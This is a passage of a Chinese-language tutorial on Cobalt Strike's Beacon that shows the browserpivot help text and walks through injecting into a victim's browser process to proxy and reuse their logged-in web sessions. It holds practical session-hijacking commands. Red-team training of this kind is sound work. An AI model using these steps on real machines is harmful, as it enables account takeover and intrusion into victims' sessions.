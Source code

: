 对于某个模块的使用方式可以直接使用help查看，如：

```
beacon> help browserpivot
Use: browserpivot [pid] [x86|x64]
     browserpivot [stop]    

Setup a Browser Pivot into the specified process. To hijack authenticated
web sessions, make sure the process is an Internet Explorer tab. These
processes have iexplore.exe as their parent process.    

Use "browserpivot stop" to tear down the browser pivoting sessions 
associated with this Beacon.

```

下面主要介绍几个好玩儿的功能。这里为了能快速显示结果，可以设置

```
beacon>sleep 0

```

0x051 Browserpivot
------------------

用户注入受害者浏览器进程，然后开启HTTP代理，之后就可以登录受害者登录的网站了。

使用方式，ps找到浏览器进程：

![Alt text](http://drops.javaweb.org/uploads/images/2fd63aca9c6780f61f5f435e459ec611111456cb.jpg)

注入进程：

```
beacon> browserpivot 3452 x64

```

![Alt text](http://drops.javaweb.org/uploads/images/121c5e64940d12713d3aadc2c0eac8249861b404.jpg)

设置本地浏览器代理：

![Alt text](http://drops.javaweb.org/uploads/images/46939f45bff9a89f621fe3d4cf1b683bacdccdb7.jpg)

当受害者登录某网站账号以后，通过代理，本机浏览器同样登录该网站:

![Alt text](http://drops.javaweb.org/uploads/images/d974da644a75dc98b5ea787e7e3f1f5b5360237a.jpg)

当然当被攻击者关闭浏览器的时候，代理也就失效了，关闭此代理可使用如下命令：

```
browserpivot stop

```

0x052 Socks
-----------
